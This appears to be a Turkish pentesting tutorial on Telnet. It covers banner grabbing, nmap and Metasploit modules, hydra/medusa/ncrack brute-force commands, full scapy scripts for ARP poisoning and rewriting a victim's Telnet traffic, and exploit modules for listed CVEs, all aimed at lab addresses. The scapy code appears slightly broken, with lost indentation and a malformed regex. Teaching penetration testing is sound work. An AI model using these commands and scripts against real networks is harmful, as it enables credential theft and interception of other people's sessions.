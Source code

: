 ```yaml
---
title: 23 - TELNET Pentesting
author: Acivik
date: 2023-01-11 19:00:00 +0300 
categories: [Pentesting, Enumeration, Protokoller]
tags: [telnet, 23/tcp, enumeration, pentest, exploit, scan, protocols, protokoller]
---
```


# Telnet Nedir?

Telnet, TCP/IP ağında bulunan iki cihazın arasında shell açmak için kullanılır. Genellikle 23 veya 992 numaralı portta bulunur, bağlanmak için bir telnet istemcisi gerekir. Telnet istemcisi, sunucuya bağlanmak için kullanılan bir uygulamadır.

Telnete bağlanmak için kullanıcı adı ve parola bilgileri kullanılır. Bu protokol günümüzde neredeyse hiç kullanılmamaktadır. Bence de kullanılmaması gereken bir protokoldür. Güvenlik açısından eksik olan bu protokol, iki bilgisayar arasındaki iletişimi düz bir metin biçiminde yapmaktadır. Bu yüzden bir saldırgan MITM saldırısı yaparak kullanıcı adı parola bilgilerini vs. yakalayabilir.

Günümüzde telnet yerine daha güvenli olan, şifreli iletişim sağlayan, SSH(Secure Shell) kullanılır.

![https://i.ibb.co/pZdm9PS/image.png](https://i.ibb.co/pZdm9PS/image.png)

# TELNET Protokolüne Yönelik Sızma Testi

## Shodan Araması

| ![https://www.shodan.io/static/img/favicon.png](https://www.shodan.io/static/img/favicon.png) [Shodan Arama Sorgusu](https://www.shodan.io/search?query=port%3A23) |
| --- |
|`port:23`|

## Temel Bilgiler

### Banner Grabbing

```bash
nc -nv 10.10.11.101 23
telnet 10.10.11.101 23
nmap -sV -p 23 10.10.11.101
msf6 > use auxiliary/scanner/telnet/telnet_version
```

![https://i.ibb.co/ch5nzvk/image.png](https://i.ibb.co/ch5nzvk/image.png)

### Nmap Scriptleri

```bash
# ls /usr/share/nmap/scripts/ | grep telnet

telnet-brute.nse
telnet-encryption.nse
telnet-ntlm-info.nse # NTLM bilgilerini (Windows sürümleri) elde eder.
```

### Telnet Bağlanma

```bash
# telnet 10.10.11.101 23
```

![https://i.ibb.co/HNwvy1L/image.png](https://i.ibb.co/HNwvy1L/image.png)

### Metasploit Kullanımı

```bash
# msfconsole -q
# search telnet

auxiliary/server/capture/telnet
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/telnet/telnet_version
```

## Brute Force

```bash
hydra -L userlist.txt -P passlist.txt 10.10.11.101 -s 23 telnet
medusa -U userlist.txt -P passlist.txt -h 10.10.11.101 -n 23 -M telnet
ncrack -U userlist.txt -P passlist.txt 10.10.11.101 -p telnet:23
msf6 > use auxiliary/scanner/telnet/telnet_login
```

![https://i.ibb.co/JCR7Btn/image.png](https://i.ibb.co/JCR7Btn/image.png)

## WireShark İle Paket Yakalama
![https://i.ibb.co/WBDjLKX/image.png](https://i.ibb.co/WBDjLKX/image.png)

## MITM Attack

| Who is? | IP Address | MAC Address |
| --- | --- | --- |
| Attacker | 10.10.11.100 | 00:0c:29:8d:82:d6 |
| Telnet Server | 10.10.11.101 | 00:0c:29:7f:ed:0a |
| Client(Victim) | 10.10.11.102 | 00:0c:29:dd:3c:05 |

`arp-poisoning.py`

```python
#!/usr/bin/python3
from scapy.all import *

#SERVER
E1 = Ether(dst="00:0c:29:7f:ed:0a", src="00:0c:29:8d:82:d6")

#VICTIM
E2 = Ether(dst="00:0c:29:dd:3c:05", src="00:0c:29:8d:82:d6")

A = ARP(hwsrc="00:0c:29:8d:82:d6",psrc="10.10.11.102",hwdst="00:0c:29:7f:ed:0a",pdst="10.10.11.101")

B = ARP(hwsrc="00:0c:29:8d:82:d6",psrc="10.10.11.101",hwdst="00:0c:29:dd:3c:05",pdst="10.10.11.102")

pkt1 = E1/A
pkt2 = E2/B

sendp(pkt1)
sendp(pkt2)
```

`sniffspoof.py`

```python
#!/usr/bin/python3
from scapy.all import *
import re
VM_A_IP = '10.10.11.101'
VM_B_IP = '10.10.11.102'
VM_A_MAC = '00:0c:29:7f:ed:0a'
VM_B_MAC = '00:0c:29:dd:3c:05'
def spoof_pkt(pkt):
if pkt[IP].src == VM_A_IP and pkt[IP].dst == VM_B_IP and pkt[TCP].payload:
newpkt = IP(pkt[IP])
del(newpkt.chksum)
del(newpkt[TCP].chksum)
del(newpkt[TCP].payload)
olddata = pkt[TCP].payload.load # Get the original payload data

#updated code lines, instead of line : " newdata = 'Z' "

olddata = olddata.decode()
data = re.sub(r'a-zA-Z', r'Z', olddata)
newdata = data.encode()

#End of updated code lines

send(newpkt/newdata)
elif pkt[IP].src == VM_B_IP and pkt[IP].dst == VM_A_IP:
send(pkt[IP]) # Forward the original packet
pkt = sniff(filter='tcp',prn=spoof_pkt)
```

![https://i.ibb.co/fF96DrH/image.png](https://i.ibb.co/fF96DrH/image.png)

`arp-poisoning` başarılı bir şekilde yapılmış.

`sniffspoof.py` scripti çalıştırıldıktan sonra kurban sunucuya telnet ile bağlanır. 

![https://i.ibb.co/QXdRTC1/image.png](https://i.ibb.co/QXdRTC1/image.png)

## Belirli Zafiyetler ve Exploitler

```bash
#BOF: FreeBSD 7.3 – 9.0; MIT Kerberos v5 Applications (krb5-appl) <= 1.0.2; Heimdal <= 1.5.1; GNU inetutils [CVE-2011-4862]
msf6 > use auxiliary/scanner/telnet/telnet_encrypt_overflow
msf6 > use exploit/linux/telnet/telnet_encrypt_keyid
msf6 > use exploit/freebsd/telnet/telnet_encrypt_keyid

#SenNet Optimal DataLogger <= V5.37c-1.43c; SenNet Solar Datalogger <= V5.03-1.56a; SenNet Multitask Meter <= V5.21a-1.18b [CVE-2017-6048] [TCP/5000]
msf6 > use auxiliary/scanner/telnet/satel_cmd_exec

#RuggedCom Rugged Operating System (ROS) Telnet backdoor [CVE-2012-1803]
Exploit-DB: 18779.txt
msf6 > use auxiliary/scanner/telnet/telnet_ruggedcom

#Lantronix Device Server V5.8.0.1 [UDP\30718]
msf6 > use auxiliary/scanner/telnet/lantronix_telnet_password
```
